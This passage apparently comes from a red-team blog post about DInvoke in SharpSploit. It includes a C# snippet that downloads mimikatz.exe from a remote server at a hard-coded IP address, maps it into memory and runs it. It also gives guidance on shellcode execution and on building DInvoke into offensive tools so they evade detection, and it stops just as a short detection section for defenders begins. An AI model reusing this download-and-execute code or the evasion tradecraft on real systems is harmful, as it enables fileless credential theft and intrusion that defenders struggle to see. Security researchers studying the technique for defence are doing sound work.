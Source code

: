 ```csharp

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}     

```

[Manual_Map4.png]

### Unknown Execution Flow at Compile Time

Sometimes, you may want to write a program where the flow of execution is unknown or undefined at build time. Rather than the program being one sequential procedure, maybe it uses dynamically loaded plugins, is self-modifying, or provides an interface to the user that allows them to specify how execution should proceed. All of these are cases that would typically be considered dangerous and... also unwise life choices. But, if you write malware, then that description probably applies to the rest of your life as well. :-P DInvoke allows you to make unwise life choices by dynamically invoking arbitrary unamanaged modules without specifying them at build-time.

### Shellcode Execution

A Delegate is effectively a wrapper for a function pointer. Shellcode is machine code that can be executed independantly. As such, if you have a pointer to it, you can execute it. SharpSploit already took advantage of delegates in order to execute shellcode in this way in the `SharpSploit.Execution.ShellCode.ShellCodeExecute` function. You could also execute shellcode using the `DynamicFunctionInvoke` method within DInvoke. Furthermore, you could use it to execute shellcode that expects parameters to be passed in or attempts to return a value.

## Integrating DInvoke into Tools

You can use DInvoke by downloading SharpSploit today. Ryan Cobb has an [https://cobbr.io/SharpGen.html](excellent blog post) that covers how to integrate existing .NET Assemblies such as SharpSploit into your red team tools. Alternatively, if you don't want to embed SharpSploit into your tool, you can copy and paste the files composing DInvoke into your project and reference them. An example would be [https://github.com/med0x2e/NoAmci](NoAmci) by med0x2e.

## Detection

DInvoke provides many operational security advantages to offensive tool developers. Fortunately for defenders, though, it is not all sunshine, lollipops and rainbows for the attackers. Nothing is undetectable. Like a ripple in a pond, every action you take on-target produces anomalies even if they are ephemeral. DInvoke is no exception.
